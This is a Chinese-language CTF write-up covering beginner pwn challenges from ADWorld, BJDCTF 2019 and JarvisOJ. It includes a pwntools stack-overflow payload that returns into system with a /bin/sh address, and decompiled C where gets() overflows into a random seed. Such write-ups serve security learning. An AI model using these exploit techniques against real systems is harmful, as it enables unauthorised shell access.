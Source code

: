 ```yaml
---
title: 近期简单 Pwn 合集
date: 2020-02-03 14:54:01
tags:
  - 整数溢出
  - 栈漏洞
  - fsb
  - 堆漏洞
  - RSA
categories:
  - 二进制安全
---
```


近期做的一些简单 Pwn 题记录。题目来自 ADWorld 新手区、BJDCTF 2019、JarvisOJ。



## ADWorld 新手区

### level2

基本的栈溢出到 `system` 地址随后传入 `/bin/sh` 地址，后者可通过 ROPgadget 搜索到。

```python
ru('Input:\n')
binsh = 0x804a024
payload = flat('a'*(0x88+4),elf.plt['system'],'a'*4, binsh)
sl(payload)
```

### guess_num

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+4h] [rbp-3Ch]
  int i; // [rsp+8h] [rbp-38h]
  int v6; // [rsp+Ch] [rbp-34h]
  char v7; // [rsp+10h] [rbp-30h]
  unsigned int seed[2]; // [rsp+30h] [rbp-10h]
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  v4 = 0;
  v6 = 0;
  *(_QWORD *)seed = sub_BB0();
  puts("-------------------------------");
  puts("Welcome to a guess number game!");
  puts("-------------------------------");
  puts("Please let me know your name!");
  printf("Your name:", 0LL);
  gets(&v7);
  srand(seed[0]);
  for (i = 0; i <= 9; ++i)
  {
    v6 = rand() % 6 + 1;
    printf("-------------Turn:%d-------------\n", (unsigned int)(i + 1));
    printf("Please input your guess number:");
    __isoc99_scanf("%d", &v4);
    puts("---------------------------------");
    if (v4 != v6)
```